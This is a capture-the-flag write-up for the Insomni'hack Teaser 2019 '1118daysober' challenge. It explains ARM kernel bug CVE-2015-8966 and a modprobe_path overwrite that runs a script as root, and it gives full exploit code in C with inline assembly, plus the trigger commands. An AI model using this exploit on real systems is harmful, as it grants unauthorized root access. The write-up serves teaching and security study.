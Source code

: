 ```yaml
---
title: Insomni'hack Teaser 2019 1118daysober
updated: 2019-02-09 13:00:00
tags: [writeup,reversing,pwn]
---
```


- [1118daysober : Insomni'hack Teaser 2019](#orge54149f)
  - [usermode-helper API](#orgb555ee6)


<a id="orge54149f"></a>

# 1118daysober : Insomni'hack Teaser 2019

    The kernel of this vm is vulnerable to CVE-2015-8966, exploit it to gain root privileges and read /flag/flag.txt !
    Terminal ssh 1118daysober@1118daysober.teaser.insomnihack.ch
    Password: 1118daysober

We were given a arm qemu image and the information that it is vulnerable to `CVE-2015-8966`

```sh
$ ls
config  flag_part.img  README.txt  rootfs.img  run.sh  vmlinux  zImage
$ ./run.sh
/ $ uname -a
Linux (none) 4.9.118-00001-gab86c83a4f15 #1 SMP Sun Jan 13 14:34:37 CET 2019 armv7l GNU/Linux
```

Lucky I was able to find [POC](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) online for this CVE by the person who found this bug. So the bug was in the `fcntl64` legacy syscall. This function will call `set_fs(KERNEL_DS)` and it will not be set back to `USER_DS` when some particular flag was specified.

So the `addr_limit` variable in the `task_struct` specify the boundary of userspace and kernelspace address and when some pointers are passed to the kernel via syscall it is verified that these pointers are in the range of userspace using `access_ok()` macros. So basically `read(0, (void*)0xc0008000, 8)` wouldn't work since we have specified a kernel address. So there are times when we need to bypass this check to specify a kernel address. The `set_fs()` is used to change this, so `set_fs(KERNEL_DS)` set it to large value so that `access_ok` always return true. So after triggering the bug we can give kernel address.

I was able to give kernel addresses, but noticed that while giving user space pointer it was crashing , I could not figure out the exact cause of this. Anyway now we can only use kernel address. The main part of this post is to discuss about a cool trick, which can be used since we have a arbitrary read/write primitive in kernel space to exploit this bug.


<a id="orgb555ee6"></a>

## usermode-helper API

Using this API we can execute binaries from kernel space, and the best part is it will be executed as `root`. One of the use case of this to load required module dynamically when new device is plugged in or if we have specified a program to process the code dump in core_pattern. This is a great article which talks about this API **[Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)**

If we can trigger a event which will execute this code path and if we can control the program executed we can run program as `root`.

So when you execute a program Linux searches through it internal data structure figure out the binary format of the program and the specific loader to load the program into memory and start executing it . And if that process fails if checks if there is any kernel module that will help it to load the binary of this specific format. For that it requires to execute `modprobe` command and the kernel used this API to execute and load module.

```c
do_execve()
  do_execveat_common()
     __do_execve_file()
	  exec_binprm()
	    search_binary_handler()
	      request_module()
              __request_module()
	          call_modprobe()
	            call_usermodehelper_setup()
	            call_usermodehelper_exec()
```

```c
/*
	modprobe_path is set via /proc/sys.
*/
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
static int call_modprobe(char *module_name, int wait)
{
	struct subprocess_info *info;
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/usr/sbin:/bin:/usr/bin",
		NULL
	};

	char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
	if (!argv)
		goto out;

	module_name = kstrdup(module_name, GFP_KERNEL);
	if (!module_name)
		goto free_argv;

	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
}

```

So if we can overwrite the `modeprobe_path` and if you try to execute a binary of invalid format it will execute the specified binary.

There are also other place in the code base were we can use the same trick to get code execution . like `poweroff_cmd` Since we have a write primitive in kernel space we can use it to overwrite the `modeprobe_path` using read syscall. Then trigger the code path to execute specified file.

```c
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
```

Then trigger it with

```sh
$ echo -ne '#!/bin/sh\n/bin/cp /flag/flag.txt /home/user/flag\n/bin/chmod 777 /home/user/flag\n' > /home/user/pwn
$ chmod +x /home/user/pwn
$ echo -ne '\xff\xff\xff\xff' > /home/user/ll
$ chmod +x /home/user/ll
$ /home/user/ll
```
We will overwrite `modeprobe_path` with `/home/user/pwn`.

Since `ll` contains a invalid magic bit, `request_module` function will be triggers and our `pwn` script will be executed as root which copies the flag can set the permission so that anyone can read it.

Exploit code, most of the code is from the POC.

```c
#define _GNU_SOURCE
#include "libc.h"

#define SEEK_SET  0       /* Seek from beginning of file.  */

struct flock
{
  short int l_type;	/* Type of lock: F_RDLCK, F_WRLCK, or F_UNLCK.	*/
  short int l_whence;	/* Where `l_start' is relative to (like `lseek').  */
  unsigned long l_start;	/* Offset where the lock begins.  */
  unsigned long l_len;	/* Size of the locked area; zero means until EOF.  */
  int l_pid;	/* Process holding the lock.  */
};
int try_to_read_kernel(){
  int len;
  int try_bytes = 4;

  /* char * path="/home/user/lll"; */
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
  
  
  return len == try_bytes;
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
        
  __asm __volatile (
                    "swi	0x9000DD\n"
                    "mov	pc, lr\n"
                    :   
                    :
                    :
                    );
}

#define F_OFD_GETLK	36
#define F_OFD_SETLK	37
#define F_OFD_SETLKW 38


int _start(){
  int fd = open("/proc/cpuinfo", O_RDONLY);
  struct flock *map_base = 0;

  map_base = (struct flock *)mmap(0x0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

  map_base->l_start = SEEK_SET;
  sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base);
  try_to_read_kernel();
  return 0;
}
```

Reference : 

[1] : [New Reliable Android Kernel Root Exploitation Techniques](http://powerofcommunity.net/poc2016/x82.pdf)

[2] : [POC CVE-2015-8966](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html)

[3] : [@bata24 kernel note](https://hackmd.io/s/r1BAS2P0z#)

[4] : [Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)
